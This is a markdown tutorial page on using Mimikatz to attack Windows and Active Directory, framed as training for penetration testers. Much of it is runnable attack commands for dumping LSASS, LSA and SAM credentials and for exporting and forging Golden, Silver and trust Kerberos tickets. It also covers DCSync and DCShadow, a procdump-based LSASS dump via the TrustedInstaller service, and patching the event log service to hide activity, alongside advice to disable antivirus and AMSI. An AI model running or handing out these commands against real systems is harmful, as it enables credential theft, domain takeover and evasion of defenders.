






# Hacking with Mimikatz

### Hacking with Mimikatz

This section aims to equip you with the knowledge and skills to effectively utilize Mimikatz for hacking tasks, enabling you to extract credentials and navigate networks with proficiency akin to seasoned professionals.

Mimikatz stands out as a pivotal tool in the world of hacking, recognized as an industry standard for penetration testing, ethical hacking security assessments, and red team operations. Its prominence is underscored by its inclusion in esteemed hacking certifications such as the _Offensive Security Certified Professional (OSCP), Practical Network Penetration Tester (PNPT)_, and _Certified Red Team Operator (CRTO)_. Mastery of Mimikatz is thus essential for you if you aspire to become a hacker and excel in these fields.

Throughout this section, you will acquire the expertise to perform a variety of critical hacking tasks using Mimikatz. These include:

* Extracting passwords
* Harvesting and dumping credentials
* Gathering Golden Tickets
* Executing sophisticated attacks like Pass-the-Hash and Over-Pass-the-Hash

These skills form the bedrock of any proficient hacker’s toolkit, and Mimikatz serves as a versatile instrument capable of facilitating these actions.

Before diving into the practical applications of Mimikatz, it is first important to understand what it is, what it does, and why it holds such significance in the cyber and information security landscape.

### What is Mimikatz?

Mimikatz is an open-source tool designed for hacking purposes, specifically for extracting credential information from compromised systems. It was developed by Benjamin Delpy as a _**Proof of Concept (PoC)**_ to demonstrate vulnerabilities within Microsoft authentication protocols, notably _**Windows New Technology LAN Manager (NTLM)**_. Since its inception, Mimikatz has evolved into an indispensable post-exploitation tool in penetration testing and red teaming activities, with numerous certifications emphasizing the importance of familiarity with its functionalities.

In the context the ethical hacking lifecycle, Mimikatz is employed during the post-exploitation phase, which commences once unauthorized access, or initial foothold into a machine has been achieved. During this stage, various activities are undertaken, including system and network reconnaissance, privilege escalation, and establishing persistence mechanisms. Mimikatz plays an important role in these endeavors.

Mimikatz excels at extracting credential data, whether stored in memory or on disk, encompassing plaintext passwords, PIN codes, Kerberos tickets, and NTLM password hashes. Armed with this stolen credential data, Mimikatz enables hackers to perform lateral movement within a network, targeting other machines or network resources. This process typically unfolds as follows:

1. Initial access (foothold and persistence) is gained to a single machine within the target network.
2. Mimikatz is utilized to extract credential information from the compromised machine.
3. The extracted credentials are then leveraged to authenticate against other machines or network resources within the local network, employing techniques such as creating Golden Tickets or conducting Pass-the-Hash (PtH) and Over-Pass-the-Hash (Pass-the-Key) attacks, all while using the credentials of the previously authenticated user to access the resources as if the user.

Mastering the use of Mimikatz, you will find yourself well-equipped to navigate the complexities of network security, effectively extracting valuable data and moving laterally across networks with the skill and precision of a seasoned professional.

#### Features of Mimikatz

Mimikatz is renowned for its extensive capabilities in cyber and information security, particularly in the areas of _**credential dumping**_, Kerberos and NTLM attacks, token impersonation, privilege escalation through vulnerability exploitation such as Print Spooler, and defense evasion techniques like clearing Windows event logs or injecting into legitimate processes. These functionalities are facilitated through various modules that extend the core capabilities of Mimikatz.

In addition, Mimikatz stands out for its broad spectrum of features designed to exploit and manipulate Windows systems. Its capabilities span across credential theft, authentication protocol attacks, privilege escalation, and defensive maneuvers, making it a versatile asset for hackers. A detailed breakdown of what each of these feature sets entails is below.

#### Credential Dumping

Credential dumping refers to the act of extracting plaintext passwords, hashes, and other authentication details from a compromised system. Mimikatz excels at this by targeting the Local Security Authority Subsystem Service (LSASS) memory, where such credentials are stored. Tools like the sekurlsa module can extract passwords, PIN codes, and Kerberos tickets, providing you with the means to authenticate as any user on the system.

#### Kerberos and NTLM Attacks

* _**Kerberos Attacks:**_ Mimikatz can exploit the Kerberos authentication protocol, which is widely used in Windows environments for secure communication between services. By extracting Kerberos tickets, you can impersonate any user and access protected resources within the domain. Advanced techniques like Kerberoasting allow you to crack encrypted Kerberos tickets to reveal service account credentials.
* _**NTLM Attacks:**_ Mimikatz also targets the NT LAN Manager (NTLM) authentication protocol, which is less secure than Kerberos but still prevalent in many systems and networks. Attacks here involve NTLM hashes to authenticate without needing the original password, a technique known as Pass-the-Hash (PtH).

#### Token Impersonation

Token impersonation involves taking over a user’s security token, which contains their access rights and privileges. Mimikatz can manipulate these tokens, allowing you to assume the identity of a high-privileged user and perform actions restricted to just that user.

#### Privilege Escalation

Privilege escalation is the process of increasing one’s level of access to a system, often from a lower-privileged user to that of an administrator. Mimikatz aids in this by exploiting vulnerabilities in the system, such as those in the Print Spooler service on Windows, to escalate privileges. This gives you broader access to the system and its resources.

### Defense Evasion Techniques

Defense evasion techniques are used to prevent detection and mitigation via various security tools. Mimikatz includes features for clearing Windows Event Logs, which record security-relevant information, and for injecting itself into legitimate processes. These tactics obscure your activities, making it harder for defenders to detect your intrusion attempts.

### Core Capabilities and Modules

Mimikatz’s functionalities are organized into various modules, each designed to handle specific tasks. These modules extend the tool’s primary and core capabilities, allowing for a more focused and effective post-exploitation of Windows systems. By combining these modules, you can perform comprehensive reconnaissance, lateral movement, and maintain persistence within compromised networks.

Mimikatz is a powerful tool that offers a wide range of features for credential theft, authentication protocol exploitation, privilege escalation, and defense evasion. Its modular architecture enhances its versatility, making it a go-to choice for hackers aiming to exploit Windows systems.

#### Exploring Mimikatz Modules

Mimikatz comprises 17 core modules, each designed to offer specific functionalities that enable post-exploitation activities, including credential theft, privilege escalation, and lateral movement across networks.

Key modules include:

* sekurlsa: This module is instrumental in extracting sensitive information such as passwords, keys, PIN codes, hashes, and tickets directly from the memory of the _**Local Security Authority Subsystem Service (LSASS).**_
* lsadump: Utilized for extracting the _**Windows Security Account Manager (SAM)**_ database and the _**Local Security Authority (LSA),**_ which store NT and LM hashes of user accounts.
* kerberos: Enables interaction with the Kerberos authentication protocol via API calls and facilitates Kerberos-based attacks, including the creation of Golden or Silver tickets and extraction of Kerberos service tickets.
* privilege: Provides commands to inspect and manipulate process privileges within Mimikatz, offering insights into and control over the execution environment.
* token: Offers functionality to examine and manipulate Windows tokens, essential for understanding and altering security contexts.
* vault: Targets passwords stored in the Windows Vault, typically encompassing credentials saved by web browsers and other applications.

These modules capitalize on vulnerabilities, inherent weaknesses, or design aspects of the Windows operating system to achieve their objectives. For example, the sekurlsa module takes advantage of a design flaw in the NTLM authentication protocol, enabling a user to authenticate using another h without knowing the plaintext password – a technique known as _**Pass-the-Hash**_ attack.

To fully utilize the capabilities of these modules, Mimikatz often requires elevated permissions, necessitating its execution as a privileged process. Such a process possesses higher-level permissions compared to regular processes and is typically achieved by running Mimikatz as an Administrator or system user. Demonstrations and practical applications of Mimikatz will therefore be conducted under elevated privileges to unlock its comprehensive feature set.

### Mimikatz Considerations

As you explore the realm of Mimikatz, a tool renowned for its ability to steal credentials and navigate networks, it's crucial to balance expectations with reality. Despite its strong reputation among penetration testers, red team operators, and malicious actors, Mimikatz encounters significant challenges due to advancements in security measures.

Mimikatz, though powerful, operates within an ecosystem increasingly fortified against its tactics. Modern security tools and even the Windows operating system itself have evolved to detect and mitigate threats posed by such utilities. Consequently, attempting to run Mimikatz on contemporary systems, particularly those running Windows 10 or later versions, without proper precautions will likely result in failure, as built-in defenses like Microsoft Defender are designed to intercept and neutralize it.

However, success with Mimikatz is not entirely out of reach; it requires strategic planning and execution. To effectively utilize Mimikatz, one must:

1. _**Execute with Elevated Privileges:**_ Running Mimikatz necessitates administrative or system-level privileges to access sensitive areas of the operating system and perform its intended functions.
2. _**Employ Defense Evasion Techniques:**_ To circumvent security mechanisms, various evasion tactics can be employed. These include running Mimikatz entirely in memory to avoid detection by antivirus software scanning disk-based activities, disabling the _**Windows Antimalware Scan Interface (AMSI)**_ to evade memory-based scans, bypassing application allowlisting by injecting Mimikatz into legitimate processes, and evading behavioral detections through techniques such as parent process spoofing.

LM and Cleartext in Memory

From Windows 8.1 and Windows Server 2012 R2 onwards, significant measures have been implemented to safeguard against credential theft:

* _**LM hashes and plaintext passwords**_ are no longer stored in memory to enhance security. A specific registry setting, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”_ must be configured with a DWORD value of 0 to disable _**Digest Authentication**_, ensuring "cleartext”" passwords are not cached in LSASS.
* _**LSA Protection**_ is introduced to shield the Local Security Authority (LSA) process from unauthorized memory reading and code injections. This is achieved by marking the LSASS as a protected process. Activation of LSA Protection involves:

1. Modifying the Registry at _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ by setting RunAsPPL to dword:00000001.
2. Implementing a _**Group Policy Object (GPO)**_ that enforces this registry change across managed devices.

Despite these protections, Mimikatz can circumvent LSA Protection using specific drivers, although such actions are likely to be recorded in event logs.

Counteracting SeDebugPrivilege Removal

Hackers typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used to extract credentials from memory; however, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration, such as the one below:

.png>)\
sc config TrustedInstaller binPath= "C:\\\Users\\\Public\\\procdump64.exe -accepteula -ma lsass.exe C:\\\Users\\\Public\\\lsass.dmp"

sc start TrustedInstaller

This allows the dumping of the lsass.exe memory to a file, which can then be analyzed on another system to extract credentials:

.png>)

Event Log Tampering with Mimikatz

Event log tampering in Mimikatz involves two primary actions: clearing event logs and patching the Event service to prevent logging of new events. Below are the commands for performing these actions:

**Clearing Event Logs**

* **Command:** This action is aimed at deleting the event logs, making it harder to track malicious activities.
* Mimikatz does not provide a direct command in its standard documentation for clearing event logs directly via its command-line interface; however, event log manipulation typically involves using system tools or scripts outside of Mimikatz to clear specific logs (e.g., using PowerShell or Windows Event Viewer).

Experimental Feature: Patching the Event Service

* **Command:** event::drop
* This experimental command is designed to modify the Event Logging Service’s behavior, effectively preventing it from recording any new events.
* **Example:** mimikatz “privilege::debug” “event::drop” exit
* The privileg&#x65;**:**:debug command ensures that Mimikatz operates with the necessary privileges to modify system services.
* The event::drop command then patches the Event Logging service.

It’s worth noting that while these evasion strategies are key for operational success, they extend beyond the scope of introductory discussions and demonstrations. For educational purposes, Mimikatz will be demonstrated running on disk on a Windows machine within antivirus and malware protections temporarily disabled.

For those interested in exploring advanced evasion techniques with Mimikatz, the dpapi and process modules offer avenues for customizing Mimikatz’s execution behaviors to sidestep common protective measures. Additionally, integrating Mimikatz with _**Command and Control (C2)**_ frameworks like **PowerShell Empire**, which come equipped with built-in evasion capabilities, can further enhance operational stealth and effectiveness.

While Mimikatz remains a potent tool in the arsenal of ethical hackers and unethical hackers alike, its successful deployment in modern environments demands a nuanced understanding of both the tool itself and the sophisticated countermeasures arrayed against it.

With that being said, enough theory; let’s dive straight into seeing Mimikatz in action!

### Extracting Plaintext Passwords

After successfully compromising a system, one of the primary objectives is to gather intelligence about the compromised environment. This could involve reviewing configuration files, accessing sensitive documents, or obtaining plaintext passwords of users. Mimikatz, with its stealthy sekurlsa module, offers a streamlined approach to achieving this goal.

#### Using the sekurlsa Module

The sekurlsa module within Mimikatz is designed to extract a wide range of sensitive information from the memory of the _**Local Security Authority Subsystem Service (LSASS).**_ This includes passwords, private keys, PIN codes, and tickets, providing a comprehensive overview of potential targets’ credentials.

#### Extracting Passwords with LogonPasswords

To extract plaintext passwords using the sekurlsa module, you’ll employ the logonpasswords command. This command compiles a list of all available credentials form the providers, encompassing recent login sessions and computer credentials.

#### Step-by-Step Guide

1. _**Disable Windows Security Settings:**_ Before proceeding, ensure that all Windows Security settings are disabled. This is very important for preventing any security mechanisms from interfering with Mimikatz’s operations.
2. _**Download Mimikatz:**_ Obtain a copy of Mimikatz from a trusted source. Ensure that the version you’re downloading is compatible with your system operation version. You can download a reputable version from _(**Source:**_ _https://github.com/gentilkiwi/mimikatz/releases)._
3. _**Run Mimikatz with Elevated Permissions (Administrator):**_ Navigate to the location where you’ve downloaded Mimikatz and double-click on the executable to launch it. Right-click on the application icon and select “Run as administrator” to grant it the necessary permissions to perform its functions.

Once you execute Mimikatz, a terminal window will appear displaying the Mimikatz interface.

.jpeg>)

At this point, you need to run the command privilege::debug. This command requests the debug privilege for your current Mimikatz process. If you are running as the Administrator or system user, this should be successful, indicated by a Privilege ‘20’ OK output.

The debug privilege lets you debug and adjust the memory of a process owned by another user account – a requirement for extracting plaintext passwords from LSASS.

Now, you can move on to extracting passwords. Run the command sekurlsa::logonpasswords to list all of the users who have recently logged onto the system. Their login data will be stored in the memory of LSASS, ready for you to extract.

This command gives a lot of output. Scrolling down, you can find a user logged into the machine or who recently logged out.

.png>)

The listing above shows three things:

1. _**The user’s name:**_ mindhackdiva
2. _**The user’s NTLM and SHA1 password hashes:**_ These can be cracked to reveal the user’s password or used in a Pass-the-Hash (PtH) attack to perform lateral movement.
3. _**The user’s plaintext password:**_ This is shown because the legacy WDigest security provider is enabled on this machine. It looks like they are fans of YOU!

Extracting passwords form the memory of LSASS is not the only place you can gather credential information with Mimikatz. Let’s take a look at a few more.

### Credential Dumping from LSA and SAM

Beyond extracting passwords, another important aspect of post-exploitation activities involves dumping credentials from the _**Local Security Authority (LSA)**_ and _**Security Account Manager (SAM)**_ databases. These databases are integral components of the Windows operating system, storing authentication details and user account information. By leveraging Mimikatz’s lsadump module, you can extract valuable credentials from these databases, especially when you have obtained debug privileges.

#### Understanding LSA and SAM Databases

* _**LSA Database:**_ Contains information about user rights and privileges, session information, and access tokens. It’s important for managing security policies and enforcing access controls within the Windows environment.
* _**SAM Database:**_ Stores hashed passwords for user accounts. It’s one of the primary targets for malicious actors looking to gain unauthorized access to user accounts.

#### Utilizing the lsadump Module

The lsadump module within Mimikatz is specifically designed for dumping credentials from the LSA and SAM databases. It offers two primary commands for this purpose:

1. _**Dumping LSA Data:**_ The lsadump::lsa /inject command is used to extract information from the LSA database. This command requires that you have already obtained debug privileges, which is a prerequisite for accessing and manipulating the LSA database.
2. _**Dumping SAM Database Contents:**_ Similarly, the lsadump module provides a command for extracting data from the SAM database, although the exact syntax may vary based on the version of Mimikatz you are using.

#### Preparing for Credential Dumping

Before you can successfully dump credentials form the LSA and SAM databases, there are several preparatory steps you must follow for this to succeed:

1. _**Run Mimikatz as Administrator or System User:**_ To access and manipulate the LSA and SAM databases, Mimikatz needs to be executed with elevated privileges. Right-click on the Mimikatz executable and select “Run as administrator” to ensure it runs with the necessary permissions.
2. _**Obtain Debug Privileges:**_ Execute the command privilege::debug within Mimikatz to elevate your privileges to the debug level. This step is essential for accessing the LSA database and performing the credential dump.
3. _**Initiate the Credential Dump:**_ With debug privileges secured, you can now proceed to dump LSA data by entering lsadump::lsa /inject. This command initiates the process of extracting credentials from the LSA database.

Scrolling down the output, you can see that the command dumps the NTLM hashes for users who have logged on recently, like mindhackdiva, and users who do not have their login credentials stored in LSASS memory, like mindhackdiva-admin.

.png>)

You can use these password hashes in Pass-the-Hash (PtH) or Over-Pass-the-Hash (Pass-the-Key) Mimikatz attacks.

Note: The /inject option will dump NTLM password hashes when executed on a workstation. If executed on a domain controller, it will dump the NTLM, WDigest, Kerberos keys, and password history.

To dump credentials stored within the SAM database, you must first elevate your privileges from Administrator to NT AUTHORITY\SYSTEM. This is done by running the command token::elevate.

Once you have system privileges, run the command lsadump::sam.

.jpeg>)

Here, you get the same NTLM hashes for all users on the system, regardless of whether their encrypted login data is still stored in memory.

.png>)

The method you choose to dump local credentials will depend on the level of access you can reach, operational security (OPSEC) concerns, and the type of credential data you want to steal.

### Using Kerberos Tickets and Ticket Extraction

Relying solely on the theft of NTLM hashes for network traversal is no longer sufficient in today’s modern security network infrastructures. Corporate networks have progressively dragged their feet yet have moved more towards secure authentication frameworks and methods, with the Kerberos authentication protocol becoming a cornerstone of Active Directory (AD) securities. Kerberos offers a strong, ticket-based authentication mechanisms that leverages Windows functionalities and a _**Key Distribution Center (KDC)**_ to manage access to network resources.

#### Understanding Kerberos Authentication Protocol

Kerberos operates by issuing two types of tickets to clients (typically workstations):

1. _**Ticket Granting Ticket (TGT):**_ Validates the client’s identity, confirming who they claim to be.
2. _**Ticket Grating Service (TGS) Ticket:**_ Verifies the client’s permissions, determining what resources they are authorized to access.

These tickets play an important role in authenticating users and granting them access to network resources according to their permissions.

#### Exploiting Kerberos Tickets

By extracting these Kerberos tickets from a compromised machine, you can authenticate as another user and access resources they are permitted to access. This capability underscores the importance of securing Kerberos tickets and the underlying AD infrastructure.

#### Extracting Kerberos Tickets with Mimikatz

To extract Kerberos tickets from a machine where you are currently logged in, follow these steps using Mimikatz:

1. _**Run Mimikatz as Administrator:**_ Launch Mimikatz with administrative privileges to ensure it has the necessary permissions to access and manipulate the system’s memory.
2. _**Obtain Debug Privileges:**_ Within Mimikatz, execute the command privilege::debug to elevate your privileges to the debug level. This step is crucial for accessing the memory where Kerberos tickets are stored.
3. _**List Available Kerberos Tickets:**_ With debug privileges secured, use tickets for all recently authenticated users. This command retrieves the Kerberos tickets stored in memory, allowing you to view and potentially misuse these tickets for unauthorized access.

Once this is set up, you can execute sekurlsa::tickets to list all available Kerberos tickets for all recently authenticated users (Kerberos tickets are stored in memory).

.png>)

There is a lot of information this command outputs. To export these tickets for use, append the /export option to the command as such:

.jpeg>)

Tickets are exported to .kirbi files starting with the user’s _**Locally Unique Identifier (LUID)**_ and a group number (0 = TGS, 1 = client ticket, and 2 = TGT).

.png>)

Once you’ve gathered all of this data, you can append it to the command kerberos::golden command to generate a Golden Ticket.

.jpeg>)

Evidently, the integration of a newly acquired Kerberos ticket into the Mimikatz session signifies a grand advancement in your ability to authenticate to various resources within your current domain, and potentially across different domains, This capability highlights the flexibility and power of Mimikatz in facilitating seamless authentication processes.

#### Leveraging Kerberos Tickets in Mimikatz

Upon injection of a new Kerberos ticket into the Mimikatz session, you are essentially arming yourself with a credential that can be used to authenticate any resource within your current domain or even extend your reach across perimeter domain boundaries. This flexibility is a testament to the interoperability of Kerberos tickets and their utility in navigating complex network environments securely.

#### Using the kerberos::list Command

To manage and review the Kerberos tickets associated with your current Mimikatz session, you can employ the kerberos::list command. This command mirrors the functionalities of the klist terminal command, providing an extensive overview of all the Kerberos tickets currently active in your session.

#### Benefits of Listing Kerberos Tickets

* **Visibility:** The kerberos::list command offers clear visibility into the kerberos tickets stored in your Mimikatz session. This transparency is important for understanding the scope of your authentication capabilities and identifying opportunities for lateral movement or resource access within your domain or across domains.
* _**Security Insight:**_ By listing the Kerberos tickets, you can access the validity and expiration of these tickets, which is essential for maintaining secure and compliant access to network resources. Knowing when a ticket expires helps in planning subsequent actions or renewing access as needed.
* _**Operational Efficiency:**_ Having a centralized view of your Kerberos tickets simplifies the management of authentication processes. It allows you to quickly identify and utilize the most appropriate ticket for a given task, optimizing your workflow and enhancing operational efficiencies.

The ability to inject and manage Kerberos tickets within a Mimikatz session exemplifies the tool’s adaptability and its role in supporting sophisticated authentication strategies. By leveraging the kerberos::list command, you can effectively monitor and utilize your Kerberos tickets, extending your reach and capabilities within network environments. This functionality highlights the importance of understanding and utilizing Kerberos tickets for secure and efficient access to network resources.

### Ckerberos ticket attacks: creating Golden Tickets with Mimikatz

Once you have extracted another user’s Kerberos ticket, you can use it to authenticate as that user and access network resources they have permission to access. Let’s take a look at a few ways in which you can accomplish that.

Note: When extracting Kerberos tickets, finding out what tickets can get you access to what resources is more than useful, it’s paramount. A great tool to do this is Bloodhound. It can perform Active Directory reconnaissance and map out attack paths you can follow using the tickets you steal.

Golden tickets represent a pinnacle achievement in the art of credential manipulation, offering unparalleled access within a domain. They are specially crafted Ticket Granting Tickets (TGTs) that leverage the domain’s Key Distribution Center (KDC) service account’s (KRBTGT) NTLM password hash for signing and encryption. This method allows you to impersonate any user within the domain, thereby gaining unrestricted access to all resources.

### Generating Golden Tickets with Mimikatz

Creating a golden ticket using Mimikatz involves a precise sequence of inputs, each serving a critical role in the ticket’s authenticity and functionality. Here is a detailed breakdown of the process:

1. _**Domain Name Specification (/domain):**_ You must specify the domain name where the golden ticket will be valid. This is a mandatory piece of information that identifies the target domain.
2. _**Security Identifier (SID) of the Domain (/sid):**_ The SID uniquely identifies the domain. Specifying the correct SID ensures that the golden ticket is recognized and accepted within the domain.
3. _**Username Impersonation (/user):**_ Although the username does not necessarily correspond to an existing domain user, specifying it allows the golden ticket to impersonate this user. This is a crucial step for accessing resources under the guise of the impersonated user.
4. _**KRBTGT Account’s NTLM Password Hash (/krbtgt):**_ The NTLM password hash of the KRBTGT account is essential for signing and encrypting the golden ticket. This information is typically obtained from the output of the lsadump::lsa /inject /user:krbtgt command, which dumps the LSA database and extracts the KRBTGT hash.
5. _**Memory Injection (/ptt):**_ Directly injects the ticket into memory.
6. _**Ticket (/ticket):**_ Saves the ticket for future use.

**Example:** mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit

.jpeg>)

1. _**Location to Save the Golden Ticket (/ticket):**_ Finally, you need to specify where the generated golden ticket will be saved. Optionally, you can use /ptt to inject the forged ticket directly into memory for immediate use.

Once you’ve gathered all of this data, you can append it to the command kerberos::golden command to generate a golden ticket.

### Other kerberos ticketing attacks

Silver Ticket Creation

Silver Tickets grant access to specific services. Key command and parameters include:

* **Command:** Similar to Golden Ticket but targets specific services.
* **Parameters:**
  * /service: The service to target (e.g., CIFS, HTTP)
  * Other parameters similar to Golden Ticket

**Example:** mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit

Trust Ticket Creation

Trust Tickets are used for accessing resources across domains by leveraging trust relationships. Key commands and parameters include:

* **Command:** Similar to Golden Ticket but for trust relationships.
* **Parameters:**
  * /target: The target domain’s _**FQDN (Fully Qualified Domain Name)**_
  * /rc4: The NTLM hash for the trust account.

**Example:** mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit

### Additional Kerberos commands for mimikatz

* **Listing Tickets:**
  * **Command**: kerberos::list
  * Lists all Kerberos tickets for the current user session.
* **Pass-the-Cache (PtC):**
  * **Command: kerberos::ptc**
  * Injects Kerberos tickets from cache files.
  * Example: mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit
* Pass-the-Ticket (PtT):
  * Command: kerberos::ptt
  * Allows using a Kerberos ticket in another session.
  * Example; mimikatz “kerberos::ptt /ticket:ticket.kirbi” exit
* Purge Tickets:
  * Command: kerberos::purge
  * Clears all Kerberos tickets from the session.
  * Useful before using ticket manipulation commands to avoid conflicts.

Active Directory (AD) Tampering with Mimikatz

* DCShadow: Temporarily make a machine act as a _Domain Controller (DC)_ for AD object manipulation.
  * mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit
* DCSync: Mimic a DC to request password data.
  * mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit

Credential Access

* LSADUMP::LSA: Extract credentials from LSA.
  * mimikatz "lsadump::lsa /inject" exit
* LSADUMP::NetSync: Impersonate a DC using a computer account's password data.
  * No specific command provided for NetSync in original context.
* LSADUMP::SAM: Access local SAM database.
  * mimikatz "lsadump::sam" exit
* LSADUMP::Secrets: Decrypt secrets stored in the registry.
